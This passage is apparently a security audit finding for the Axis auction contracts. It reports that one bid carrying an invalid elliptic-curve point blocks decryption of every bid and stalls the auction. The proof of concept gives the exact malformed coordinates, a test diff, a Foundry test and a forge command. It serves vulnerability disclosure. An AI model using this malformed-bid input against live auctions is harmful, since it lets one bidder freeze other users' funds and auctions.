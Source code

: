 Because the decryption process expects ALL the bids submitted for an auction to be decrypted prior to actually setting the auctions state to `Decrypted`, if only one bid decryption fails, the decryption process won’t be completed, and the whole auction process (decrypting, settling, …) won’t be executable because the auction never reaches the `Decrypted` state.

## Proof of Concept

The following proof of concept shows a reproduction of the attack mentioned above. In order to reproduce it, following these steps:

1. Inside `EMPAModuleTest.sol`, change the `_createBidData()` function so that it uses the (21888242871839275222246405745257275088696311157297823662689037894645226208584, 2) point instead of the `_bidPublicKey` variable. This is a valid point as per Axis’ checks, but it is actually invalid given that the x coordinate is greater than the field modulus:
    
    ```diff
    // EMPAModuleTest.t.sol
    
    function _createBidData(
            address bidder_,
            uint96 amountIn_,
            uint96 amountOut_
        ) internal view returns (bytes memory) {
            uint256 encryptedAmountOut = _encryptBid(_lotId, bidder_, amountIn_, amountOut_);
     
    -        return abi.encode(encryptedAmountOut, _bidPublicKey);
    +        return abi.encode(encryptedAmountOut, Point({x: 21888242871839275222246405745257275088696311157297823662689037894645226208584, y: 2}));
        }        
    
    ```
    
2. Paste the following code in `moonraker/test/modules/auctions/EMPA/decryptAndSortBids.t.sol`:
    
    ```solidity
    // decryptAndSortBids.t.sol
    
    function testBugdosDecryption()
            external
            givenLotIsCreated
            givenLotHasStarted
            givenBidIsCreated(_BID_AMOUNT, _BID_AMOUNT_OUT) 
            givenBidIsCreated(_BID_AMOUNT, _BID_AMOUNT_OUT) 
            givenLotHasConcluded  
            givenPrivateKeyIsSubmitted
        {
    
            vm.expectRevert("ecMul failed.");
            _module.decryptAndSortBids(_lotId, 1);
    
        }
    ```
    
3. Run the test inside `moonraker` with the following command: `forge test --mt testBugdosDecryption`
